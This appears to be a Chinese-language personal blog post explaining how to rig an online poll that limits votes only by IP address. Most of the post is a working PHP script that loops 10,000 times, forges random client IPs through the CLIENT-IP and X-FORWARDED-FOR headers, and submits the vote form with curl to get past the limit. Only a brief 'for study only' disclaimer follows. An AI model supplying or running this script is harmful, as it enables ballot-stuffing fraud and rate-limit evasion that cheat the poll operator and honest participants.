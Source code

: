 ```yaml
---
layout: post
title : 投票脚本
category : software
tags : [software]
---
```

{% include JB/setup %}

最近有个投票活动,我看到大部分人都是几百票,然而少数人却是几万票,这明显就是刷票的行为.于是就研究了一下如何刷票.

由于这个投票网站不需要登录,也没有验证码,只是限制了IP而已,所以实现起来比较简单.起初我想用java来写的.但是查了一下资料,进展不是很顺利.突然想起来以前包子在河畔上发过一个php投票脚本.于是找到了这个帖子,研究一了一下.发现curl真是个牛逼的东西.

好了,下面说一下思路.主要是需要知道下面2点:

	1 form的action地址
	2 需要提交的键值

下面是脚本代码:
{% highlight php %}
<?php
for($count = 0; $count < 10000; $count++) {
	//sleep(1)
	// 随机生成IP
	$ip = '';
	for($i = 0; $i < 4; $i++) {
	    $ip .= mt_rand(1,255);
	    if($i == 3) break;
	    $ip .= '.';
	}
	// 设置HTTP头部变量
	$h['CLIENT-IP'] = $ip;
	$h['X-FORWARDED-FOR'] = $ip;
	$header = array();  
	foreach($h as $k => $v ) {  
	    $header[] = $k .':' . $v;  
	}
	// 设置POST信息
	$postData = "这里为需要提交的键值";
	//初始化curl句柄
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, "form的action地址");
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
	// 伪造HTTP头部
	curl_setopt($ch, CURLOPT_HTTPHEADER , $header );
	curl_setopt($ch, CURLOPT_REFERER, "投票页面地址");
	//curl_setopt($ch, CURLOPT_HEADER, 1);
	curl_setopt($ch, CURLOPT_POST, 1);
	curl_setopt($ch, CURLOPT_POSTFIELDS, $postData);
	$out = curl_exec($ch);
	curl_close ($ch);
	echo $out.' '.$count.' '.$ip;
	echo "\n";
}
?>
{% endhighlight %}

以上代码仅供交流学习,不要乱用哈!
